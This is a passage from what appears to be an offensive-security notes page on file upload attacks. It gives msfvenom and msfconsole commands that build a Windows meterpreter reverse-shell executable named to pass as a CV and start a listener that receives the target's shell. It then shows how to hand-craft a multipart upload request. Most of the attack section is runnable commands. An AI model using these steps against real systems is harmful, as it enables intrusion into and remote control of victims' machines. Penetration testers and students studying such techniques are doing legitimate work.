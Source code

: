 First create a malicious executable file using msfvenom.  
Replace **10.0.0.1** with your local ip.

```sh
# -f: Format
# -p: Payload
# -o: Output file
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o cv-username.exe
```

Next start a listener for getting the target shell.

```sh
# -x: Execute command
sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.0.0.1; set LPORT 4444; exploit"
```

After getting the shell, we will get in the meterpreter, so we need to know the meterpreter’s commands. To get a list of command, run the following in the meterpreter.

```sh
# Usage command
meterpreter> ?
```

  

## [Other Tips](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#other-tips)

  

### [Craft Upload Request](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#craft-upload-request)

If website does not display the upload page but such functionality exists on the website, we can manually create the uploading request.  
First off, we need to set **`multipart/form-data; boundary=<arbitrary_characters>`** to **Content-Type** in **HTTP headers** as below.  
Of course we need to specify the **POST** method at the top of the header.

```html
Content-Type: multipart/form-data; boundary=abcdef
```

Then we can surround **POST body (to upload file)** with this boundary as the following.

```html
--abcdef
Content-Disposition: form-data; name="profile"; filename="test.png"
Content-Type: image/jpeg

some code here...
--abcdef--
```
